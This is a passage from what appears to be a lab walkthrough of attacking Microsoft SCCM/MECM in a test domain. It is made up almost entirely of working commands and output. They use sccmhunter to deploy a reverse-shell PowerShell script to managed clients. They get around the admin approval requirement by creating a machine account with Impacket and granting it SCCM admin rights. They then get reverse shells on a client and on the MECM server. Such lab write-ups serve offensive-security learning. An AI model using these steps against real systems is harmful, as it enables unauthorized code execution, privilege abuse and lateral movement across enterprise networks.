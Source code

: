 - We will try to deploy the script

```bash
python3 sccmhunter.py admin -u carol@sccm.lab -p 'SCCMftw' -ip 192.168.33.11
() (C:\) >> get_device CLIENT
() (C:\) >> interact 16777221
(16777221) (C:\) >> script /workspace/revshell.ps1
```
![need_approval.png](/assets/blog/SCCM/need_approval.png)


- Ok the configuration is by default and it need approval, let's create an approval account

```bash
# create a computer account
addcomputer.py -computer-name 'approval$' -computer-pass 'approvalaccount' 'sccm.lab/carol:SCCMftw' -dc-ip 192.168.33.10

Impacket v0.11.0 - Copyright 2023 Fortra 
[*] Successfully added machine account approval$ with password approvalaccount.  

# search the computer SID
ldeep ldap -u carol -p SCCMftw -d SCCM.lab -s ldap://192.168.33.10 search '(name=*approval*)' 'objectSid'
[{                                                                  
  "dn": "CN=approval,CN=Computers,DC=sccm,DC=lab",                  
  "objectSid": "S-1-5-21-3544182104-1320166847-3102157022-1122"     
}] 

# add the account as admin with sccmhunter
python3 sccmhunter.py admin -u carol@sccm.lab -p 'SCCMftw' -ip 192.168.33.11 -debug
SCCMHunter v1.0.1 by @garrfoster
[18:55:40] DEBUG    [*] Database built.                             
[18:55:40] INFO     [!] Enter help for extra shell commands         
() C:\ >> add_admin approval$ S-1-5-21-3544182104-1320166847-3102157022-1122
[18:55:56] INFO     Tasked SCCM to add approval$ as an administrative user.                                                             
[18:55:57] INFO     [+] Successfully added approval$ as an admin.   
```

- Run the revshell with `approval$` account

```bash
python3 sccmhunter.py admin -u carol@sccm.lab -p 'SCCMftw' -ip 192.168.33.11 -au 'approval$' -ap 'approvalaccount' -debug
() (C:\) >> get_device CLIENT
() (C:\) >> interact 16777221
(16777221) (C:\) >> script /workspace/revshell.ps1
```

![get_system_on_client.png](/assets/blog/SCCM/get_system_on_client.png)

- Use it to move on MECM computer too and get a revshell on the MECM computer

```bash
>> get_device MECM
...
ResourceId: 16777219 
...
>> interact 16777219
>> script /workspace/revshell.ps1
```
